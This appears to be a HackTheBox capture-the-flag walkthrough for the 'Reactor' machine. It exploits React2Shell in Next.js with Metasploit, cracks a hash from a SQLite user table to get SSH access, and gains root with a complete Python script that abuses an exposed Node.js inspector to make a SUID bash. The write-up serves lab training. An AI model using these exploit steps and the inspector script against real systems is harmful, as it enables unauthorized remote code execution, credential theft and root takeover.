## Machine Summary

- **Name:** Reactor
- **Platform:** HackTheBox
- **OS:** Linux
- **Difficulty:** Easy
- **XP Reward:** 585
- **Key Vulnerability:** React2Shell affecting Next.js applications using App Router (CVE-2025-55182, CVE-2025-66478)

---

After starting the machine, add the IP to the `/etc/hosts` for easier access:

```bash
echo "<MACHINE-IP> reactor.htb" | sudo tee -a /etc/hosts
```

For initial enumeration, I use `nmap` to scan all open ports:

```bash
sudo nmap -sC -sV -vv --open -p- -T3 reactor.htb
```

We have 2 open ports, one run SSH and one run `ppp?` service ???:


A little bit confusing with `ppp` service but if we look at the fingerprint-strings of the Nmap output, we can see that actually a website with `http` service. Access the website:


Using [Wappalyzer](https://www.wappalyzer.com/), we know that it runs on Next.js and React:


Try to find the vulnerabilities related to that Next.js version and I found this [article](https://www.oligo.security/blog/critical-react-next-js-rce-vulnerability-cve-2025-55182-cve-2025-66478-what-you-need-to-know). Bingooo! We have one of the biggest and most widespread security exploits in 2025: **`React2Shell`**. Reading the article and we can confirm that our target is vulnerable to that:


---

## Mechanism of the React2Shell vulnerability

**`React2Shell`** refers to a critical Remote Code Execution (RCE) vulnerability in React Server Components (RSC), tracked as `CVE-2025-55182`. In Next.js applications using the App Router, the same underlying issue is tracked as `CVE-2025-66478`.

The root cause of the vulnerability lies in the way React deserializes and resolves references inside RSC/Flight payloads. An attacker can send a specially crafted request containing malicious serialized data and influence how React accesses object properties.

The vulnerable property resolution allows an attacker to traverse the JavaScript prototype chain, for example through properties such as: **`__proto__`**, **`constructor`**. This can eventually provide access to JavaScript's `Function()` constructor. By combining this with React's internal object handling and promise/thenable behavior, the attacker can cause attacker-controlled JavaScript code to be created and executed on the server.

The simple attack flow:

```
malicious HTTP Request
    ↓
RSC/Flight payload
    ↓
prototype traversal
    ↓
manipulate React Internal Object Handling
    ↓
obtain Function constructor
    ↓
build call gadget
    ↓
execute attacker-controlled JavaScript
    ↓
RCE
```

Because the vulnerable code runs on the server, successful exploitation results in code execution with the privileges of the Node.js process running the Next.js application through the App Router.

---

Continue with our machine, I use `Metasploit Framework` to automate the exploit:

```bash
msfconsole
search react2shell
```



We know that the machine runs Ubuntu through `nmap` scan so we `use 1` to choose module 1. Type `options` to see module options, here we set the options:

```
set rhosts reactor.htb
set rport 3000
set lhost <YOUR-TUN0-IP>
```

After that, run `exploit` and wait for Metasploit to open a session. Then we successfully "RCE" this machine:


Check if `python3` is installed, if have we can upgrade to more stable shell:

```bash
which python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



We are in `/opt/reactor-app`, maybe the website root directory. List all the files, and we can see a database file `reactor.db`. Use `file` binary to check what type of it, it is a SQLite3 file:



Fortunately, the `SQLite3` binary has also been installed on the machine, we use it to open the database file:

```bash
sqlite3 reactor.db
```

The `users` table contains two sets of credentials: `admin` and `engineer`:


Using [CrackStation](https://crackstation.net/), only the `engineer` hash was successfully cracked, while the `admin` hash yielded no results. The target has Now we have full credential of `engineer` user, use it to log in via SSH for persistent session.

Here, we can get the user flag:


## Privilege Escalation

Basic enumeration on SUID binaries, Linux capabilities, and cron jobs yielded no exploitable vectors. I look for open ports on machine and see an interesting port `9229` running locally. After research, I know that is the default port used by `Node.js` for its remote debugging inspector: <https://nodejs.org/learn/getting-started/debugging>.



Find all the running process of `Node.js`:

```bash
ps aux | grep node
```

A process is running with root privilege that execute a JS script `/opt/uptime-monitor/worker.js`:


The file is owned by `root` and we just have read permission:


The content of `worker.js`:

```js {lineNos=true}
const http = require("http");
const fs = require("fs");

const TARGET_URL = "http://127.0.0.1:3000/";
const CSV_FILE = "/var/log/uptime-monitor.csv";
const INTERVAL_MS = 30_000;
const TIMEOUT_MS = 10_000;

function csvEscape(value) {
  const s = String(value ?? "");
  return /[",\n]/.test(s) ? `"${s.replace(/"/g, '""')}"` : s;
}

function record({ status, latency, size, error }) {
  const row =
    [
      new Date().toISOString(),
      status ?? "",
      latency ?? "",
      size ?? "",
      error ?? "",
    ]
      .map(csvEscape)
      .join(",") + "\n";

  fs.appendFileSync(CSV_FILE, row);
}

function probe() {
  const start = process.hrtime.bigint();
  let bytes = 0;

  const req = http.get(TARGET_URL, { timeout: TIMEOUT_MS }, (res) => {
    res.on("data", (chunk) => {
      bytes += chunk.length;
    });

    res.on("end", () => {
      const latencyMs = Number((process.hrtime.bigint() - start) / 1_000_000n);

      record({
        status: res.statusCode,
        latency: latencyMs,
        size: bytes,
      });
    });
  });

  req.on("error", (error) => {
    const latencyMs = Number((process.hrtime.bigint() - start) / 1_000_000n);

    record({
      latency: latencyMs,
      error: error.code || error.message,
    });
  });

  req.on("timeout", () => {
    req.destroy();

    record({
      latency: TIMEOUT_MS,
      error: "TIMEOUT",
    });
  });
}

setInterval(probe, INTERVAL_MS);
probe();

console.log("uptime-monitor up, pid=" + process.pid);
```

It's just a clean script for auto logging uptime detail of website into `/var/log/uptime-monitor.csv`, nothing can be exploited here. From my past CTF experience and research, the `--inspect` switch appears to be the most potential target. The Node.js Inspector was exposed on a localhost-only port while the target process was running as root, because an unprivileged user could access this debugging interface, it became a viable privilege-escalation vector. This [article](https://hacktricks.wiki/en/linux-hardening/software-information/electron-cef-chromium-debugger-abuse.html) has introduced quite detaily about the exploitation.

Checking Inspector, it runs `Node.js` version 20.20.2 and [CDP](https://chromedevtools.github.io/devtools-protocol/) version 1.1:

```bash
curl http://127.0.0.1:9229/json/version | jq
```



Enumerate debugger targets:

```bash
curl -s http://127.0.0.1:9229/json/list | jq
```



We have some useful fields here:

- `type`: "Node" --> this is a Node target
- `title`: "/opt/uptime-monitor/worker.js" --> the process/script is being debugged
- `webSocketDebuggerUrl`: "ws://127.0.0.1:9229/\<UUID\>" --> contains the WebSocket endpoint used to communicate directly with the Node.js Inspector

Next, we need to connect to Node.js Inspector using the value of `webSocketDebuggerUrl` field. The connection uses the Chrome DevTools Protocol (CDP), which allows a debugger client to interact with the running Node.js process.

Node.js Inspector exposes several debugging capabilities through CDP. One of the most interesting methods for this attack is: `Runtime.evaluate`. This method allows JavaScript expressions to be evaluated inside the runtime of the target Node.js process. Once arbitrary JavaScript can be evaluated inside this process, Node.js APIs can be abused to interact with the underlying operating system, resulting in command execution with root privileges.

I write a Python script to connect to Inspector, use `Runtime.evalute` method to execute our payload. The target do not have the `websocket` library installed, and `pipx` is not available. Therefore, I implement the WebSocket framing logic manually, using a raw TCP socket to perform the handshake, mask frames, and send them to the Node.js Inspector. The script is as follows:

```python
import base64
import json
import os
import socket
import struct
import urllib.request

HOST = '127.0.0.1'
PORT = 9229

CMD = "cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash" # can change it to command you want

# Get WS Path
try:
    with urllib.request.urlopen(f"http://{HOST}:{PORT}/json") as resp:
        data = json.loads(resp.read().decode())
        ws_url = data[0]['webSocketDebuggerUrl']
        ws_path = "/" + ws_url.split("/", 3)[-1]
        print(f"[+] WS Path: {ws_path}")
except Exception as e:
    print(f"[-] Error: {e}")
    exit(1)

# connect to inspector
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
sec_key = base64.b64encode(os.urandom(16)).decode()
handshake = (
    f"GET {ws_path} HTTP/1.1\r\n"
    f"Host: {HOST}:{PORT}\r\n"
    f"Upgrade: websocket\r\n"
    f"Connection: Upgrade\r\n"
    f"Sec-WebSocket-Key: {sec_key}\r\n"
    f"Sec-WebSocket-Version: 13\r\n\r\n"
)
s.sendall(handshake.encode())
if b"101 Switching Protocols" not in s.recv(4096):
    print("[-] Handshake failed")
    exit(1)

# JS payload
js_code = (
    f"(() => {{ try {{ "
    f"const req = process.mainModule.require || globalThis.require; "
    f"return req('child_process').execSync('{CMD}').toString(); "
    f"}} catch(e) {{ return 'ERROR: ' + e.message; }} }})()"
)

# CDP message
cdp_msg = json.dumps({
    "id": 1,
    "method": "Runtime.evaluate",
    "params": {
        "expression": js_code,
        "returnByValue": True
    }
}).encode('utf-8')

# Masking & Send
mask_key = os.urandom(4)
masked_data = bytearray(b ^ mask_key[i % 4] for i, b in enumerate(cdp_msg))
length = len(cdp_msg)

if length <= 125:
    header = struct.pack("!BB", 0x81, 0x80 | length)
elif length <= 65535:
    header = struct.pack("!BBH", 0x81, 0x80 | 126, length)
else:
    header = struct.pack("!BBQ", 0x81, 0x80 | 127, length)

s.sendall(header + mask_key + masked_data)
res_raw = s.recv(8192)
s.close()

# Parse response from server
if len(res_raw) > 2:
    payload_len = res_raw[1] & 0x7F
    offset = 2
    if payload_len == 126:
        offset = 4
    elif payload_len == 127:
        offset = 10
    body = res_raw[offset:].decode(errors='ignore')
    print(f"[+] CDP Response:\n{body}")
```

After executing the script, we finally have a copy of `/bin/bash` in `/tmp/rootbash` with SUID bit set:


We just need to `/tmp/rootbash -p` and we will have a shell with root privilege. Then finish our last mission: get the root flag:

